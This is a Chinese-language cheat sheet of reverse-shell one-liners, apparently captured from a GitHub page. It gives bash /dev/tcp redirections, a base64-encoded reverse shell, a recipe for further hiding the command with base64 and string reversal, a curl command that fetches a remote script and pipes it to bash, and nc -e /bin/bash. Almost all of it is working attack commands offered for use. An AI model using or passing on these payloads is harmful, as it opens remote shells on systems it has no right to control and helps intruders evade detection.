 # 反弹shell汇总

注意有些反弹shell的方法或脚本只适用于Linux或者Windows，注意区分相关脚本的编写方式方法。

## bash

```
bash -i >& /dev/[tcp|udp]/[host]/[port] 0>&1
/bin/bash  -i > /dev/[tcp/udp]/[host]/[port] 0<&1 2>&1
```

base64版

```bash
bash -c '{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43LzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}'  //其中的base64字符是bash -i >& /dev/tcp/10.10.14.7/4444 0>&1的base64加密
```

还可以引申一波

```
基础的反弹指令
echo "bash -i >& /dev/tcp/192.168.43.47/4444 0>&1" | bash我们来给它混淆一下
先给它base64一下
ZWNobyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQzLjQ3LzQ0NDQgMD4mMSIgfCBiYXNo然后反转一下
oNXYiBCfgISMm4DMgQDN0QzL3QjLzQjL4YTMuITOx8CcjR3L2VGZvAiJ+ASatACazFmYiAyboNWZ就这样套一下，也可以再套一层
echo oNXYiBCfgISMm4DMgQDN0QzL3QjLzQjL4YTMuITOx8CcjR3L2VGZvAiJ+ASatACazFmYiAyboNWZ | rev |base64 -d |bash套变量
s=`echo oNXYiBCfgISMm4DMgQDN0QzL3QjLzQjL4YTMuITOx8CcjR3L2VGZvAiJ+ASatACazFmYiAyboNWZ | rev |base64 -d |bash`;$s后面还可以套层数这是一种基础的方法，还有很多变种可以
```

## curl

本质上来说还是bash反弹，只不过用curl去远程假造，在一些特定情况下可以用。先本地写一个sh文件，这里文件名名为5555.sh

```
bash -i >& /dev/tcp/10.10.16.17/5555 0>&1
```

然后使用curl去远程加载（提前本地开启http）

```
curl 10.10.16.17/5555.sh|bash
```

然后本地开启监听就能收到shell

## NatCat(nc)

 不同版本的nc不一定支持-e：

```
nc -e /bin/bash [host] [port]
```
